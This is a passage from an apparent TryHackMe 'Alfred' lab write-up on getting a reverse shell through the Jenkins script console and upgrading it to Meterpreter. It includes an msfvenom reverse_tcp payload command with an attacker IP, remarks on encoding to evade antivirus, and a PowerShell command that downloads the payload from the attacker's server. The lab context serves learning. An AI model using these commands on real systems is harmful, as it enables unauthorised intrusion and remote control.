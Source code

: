     
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2012.png)
    
    - This will listen for incoming connections on port `4444`.
    
    ### **4. Execute the Command on Jenkins**
    
    - Press the run button and if Jenkins executes the command successfully ( the request should hang for a moment), it will connect back to your local machine, and you should receive a reverse shell on your Netcat listener.
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2013.png)
    
    NOW ON TO LATERAL MOVEMENT!!!!
    
- Lateral Movement
    
    ## Switching to Meterpreter:
    
    Now that we’ve achieved initial access, lets follow the room instructions and switch to a meterpreter shell for the privesc process. I’m sure this isn't needed but for the sake of learning I will oblige.They do a good job of explaining the process below:
    
    To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.
    
    Use msfvenom to create a Windows meterpreter reverse shell using the following payload:
    
    **`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`**
    
    Make sure to use your attacker port and IP, here's my command: 
    
    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.48.67 LPORT=2222 -f exe -o reverse.exe
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2014.png)
    
    This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.
    
    After creating this payload, download it to the machine using the same method in the previous step:
    
    **`powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"`**
    
    Ok. SO a word about this: getting this simple payload onto the target was for me way more difficult and cumbersome than it should have been. I simply tried to download it from the command line on the target, but every time the http request would go through, then hang and nothing would download, which caused me to have to exit the shell and redo the initial exploit to get back on.
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2015.png)
    
     
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%2016.png)
    